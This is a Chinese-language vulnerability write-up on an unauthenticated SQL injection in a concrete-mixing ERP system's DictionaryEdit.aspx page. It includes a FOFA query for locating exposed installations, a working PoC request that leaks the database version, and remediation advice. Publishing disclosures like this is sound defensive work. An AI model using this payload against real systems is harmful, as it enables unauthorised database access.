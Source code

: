 
# 商混 ERP 系统 SQL 注入漏洞复现

### 0x01 产品简介

   杭州荷花软件有限公司开发的商混[ERP 系统](https://so.csdn.net/so/search?q=ERP%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)。这套系统主要是处理建筑公司或者各项工程的搅拌站管理，内部含有销售模块、生产管理模块、实验室模块、人员管理等

### 0x02 漏洞概述

 商混 ERP 系统/Sys/DictionaryEdit.aspx 处 dict\_key 参数存在 SQL 报错注入漏洞，未授权的攻击者可通过该漏洞获取数据库权限。

### 0x03 复现环境

FOFA：app="商混 ERP 系统"

![](assets/1701071135-dc6c72309414aeb794648ad0160824b0.png)

### 0x04 漏洞复现

PoC

```http
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(255),@@version)-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

查询数据库版本

![](assets/1701071135-3a55123f124ea6af42dbe9934208ba12.png)

### 0x05 修复建议

使用预编译语句，所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止 SQL 注入攻击。

对进入数据库的特殊字符（'"@&\*;等）进行转义处理，或编码转换。

确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型。

过滤危险字符，例如：采用正则表达式匹配 union、sleep、and、select、load\_file 等关键字，如果匹配到则终止运行。
